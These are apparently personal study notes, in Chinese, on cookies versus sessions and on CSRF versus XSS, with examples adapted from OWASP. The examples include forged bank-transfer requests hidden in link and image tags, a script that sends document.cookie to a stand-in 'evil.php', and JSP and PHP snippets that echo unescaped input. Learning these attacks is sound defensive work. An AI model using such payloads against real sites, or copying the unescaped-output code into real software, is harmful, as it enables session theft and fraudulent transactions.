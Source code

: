 ## cookie vs session
作用：保存用户浏览页面存下的数据

+ cookie在客户端保存， session用cookie作为各样的key，在服务端保存
+ session在浏览器关闭时关闭，cookie依赖生成时的设定值。
+ 优先使用sesssion保存。
  + 1. 实际数据对客户端隐藏
  + 2. 可防止cookie被串改
  + 3. 可直接控制有效期 

+ transient cookie也叫session cookie. 
  + 浏览器关闭即消失
  + 数据存储在浏览器的临时存储区，而不是硬盘
  + 创建cookie时不设定`Set-Cookie`选项的日期
  

## CSRF vs XSS
[wiki](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

+ 前者利用站点对浏览器的信任，后者利用浏览器对站点的信任。
+ csrf是欺骗已授权的用户发送自己不确认的指令。<br>比如：某页面允许点击链接来删除当前用户的数据，根据session cookie，其数据被移除。要实施攻击，只需要用户装入一个url(<em>或者img自动装入，img与xmlhttprequest不同，img可以从任意地方下载</em>)就可以。。因为请求由浏览器发出，也就带了session cookie,就不需要用户的identity了。<br>
 
### [csrf例子](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
  + Alice转100元给BOB<br>
    `GET http://bank.com/transfer.do?acct=BOB&amount=100 HTTP/1.1`
  + Mario修改指令.<br>
    `GET http://bank.com/transfer.do?acct=MARIA&amount=100000 HTTP/1.1` <br>
    她可以在任意页面装入这个链接
     `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>`
    '<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">'

### [xss例子](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
  + 例子1，服务端返回的eid不是数字而是js脚本 <pre>
  &lt;% String eid = request.getParameter("eid"); %> 
	...
	Employee ID: &lt;%= eid %>
  </pre>
  + 例子2 从已授权用户盗取cookie.只要在一个post请求中放入代码
  <pre>
  &lt;SCRIPT type="text/javascript">`
   var adr = '../evil.php?cakemonster=' + escape(document.cookie);`
  &lt;/SCRIPT>`</pre>

  + 在地址栏放入代码。<br>
  假定服务器有如下代码：
  <pre>&lt;? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?></pre>
  正常返回:`Not found: /file_which_not_exist`<br>
  只要在浏览器输入`http://testsite.test/<script>alert("TEST");</script>`<br>
  服务器就回返回`Not found: / (but with JavaScript code <script>alert("TEST");</script>)`